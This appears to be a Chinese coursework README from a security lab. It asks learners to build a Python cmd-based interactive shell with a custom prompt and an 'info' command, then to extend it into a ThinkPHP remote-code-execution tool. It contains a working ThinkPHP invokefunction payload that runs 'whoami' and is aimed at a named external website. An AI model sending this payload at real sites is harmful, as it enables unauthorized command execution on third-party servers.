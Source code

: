 # 任务
这个任务，功能大伙可以根据自己的理解和功能去做。重点是把[面向对象和继承](https://www.runoob.com/python3/python3-class.html)学好。
## 基础
首先有继承方面的基础，并且有阅读分析文档
本任务文档[CMD](https://docs.python.org/3/library/cmd.html)

## 需求
* 使用cmd库，实现一个交互式命令行
* 修改交互式命令行的标识符（自己ID）
* 实现一个命令，如果：info 效果如下
```angular2html
0vercl0k >info
I Love Qingtian Lab
0vercl0k >
```

* 根据以上，实现一个远程代码执行。（Thinkphp）

thinkphp：https://www.beautechhealthcare.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=whoami
(注意 命令执行即可，如果有能力可以做更多一点功能)

## 疑点
* 为什么TAB键不支持